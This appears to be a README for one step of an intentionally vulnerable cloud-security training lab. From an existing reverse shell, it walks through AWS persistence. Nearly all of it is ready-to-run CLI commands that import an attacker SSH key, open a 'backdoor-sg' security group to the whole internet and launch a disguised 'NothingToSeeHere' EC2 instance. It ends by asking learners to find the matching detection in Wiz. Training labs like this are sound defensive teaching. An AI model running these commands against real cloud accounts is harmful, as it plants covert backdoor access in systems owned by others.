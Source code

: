 # 🔥 Vulnerable Labs: Persistence Pays Off!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to leverage excessive permissions and misconfigurations to gain persistence in a cloud environment.

Mitre ATT&CK defines persistence as techniques to allow adversaries to maintain their access to systems and devices across restarts and other interruptions. 


### 🎯 Your Mission

1. On your laptop, open a terminal and run the following command to generate a new SSH keypair:
```bash
ssh-keygen -t rsa -f attacker_key
```
2. Update the permissions on the generated keys 
```bash
chmod 0600 attacker_key*
```
3. Run the following command to obtain the attacker_key public key. Note it down as you'll need this shortly.
```bash
cat attacker_key.pub
```
4. Ensure your reverse shell is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
5. Run the following commands to install the AWS CLI (note we're using the tmp directory which is writeable):
```bash
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "/tmp/awscliv2.zip" && unzip /tmp/awscliv2.zip -d /tmp/aws && cd /tmp/aws && ./aws/install --install-dir /tmp/aws-cli --bin-dir /tmp/aws-cli-bin && /tmp/aws-cli-bin/aws sts get-caller-identity
```
6. Run the following command to create a file containing your attacker public key
```bash
echo "{attacker_key.pub}" > /tmp/attacker_key.pub
```
7. Run the following command to import your SSH Public Key
```bash
/tmp/aws-cli-bin/aws ec2 import-key-pair --key-name attacker_key --public-key-material fileb:///tmp/attacker_key.pub
```
8. Run the following command to create a security group
```bash
/tmp/aws-cli-bin/aws ec2 create-security-group \
--group-name backdoor-sg \
--description "SSH access for attacker" \
--vpc-id $(/tmp/aws-cli-bin/aws ec2 describe-vpcs --query "Vpcs[0].VpcId" --output text)
```
9. Run the following command to create a security group rule:
```bash
/tmp/aws-cli-bin/aws ec2 authorize-security-group-ingress \
--group-id $(/tmp/aws-cli-bin/aws ec2 describe-security-groups --filters "Name=group-name,Values=backdoor-sg" --query "SecurityGroups[0].GroupId" --output text) \
--protocol tcp \
--port 22 \
--cidr 0.0.0.0/0
```
10. Run the following command to launch a new shadow EC2 instance:
```bash
/tmp/aws-cli-bin/aws ec2 run-instances \
--instance-type t2.micro \
--image-id ami-0aa2b7722dc1b5612 \
--subnet-id $(/tmp/aws-cli-bin/aws ec2 describe-subnets --query "Subnets[?MapPublicIpOnLaunch].SubnetId | [0]" --output text) \
--tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=NothingToSeeHere}]' \
--security-group-ids $(/tmp/aws-cli-bin/aws ec2 describe-security-groups --group-names backdoor-sg --query "SecurityGroups[0].GroupId" --output text) \
--key-name attacker_key \
--associate-public-ip-address
```
11. From your laptop (where you created your attacker_key) SSH to the newly created EC2 instance:
```bash
ssh -i attacker_key ubuntu@ip_address
```


Congratulations, you've completed this challenge. Can you now find the corresponding detection in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

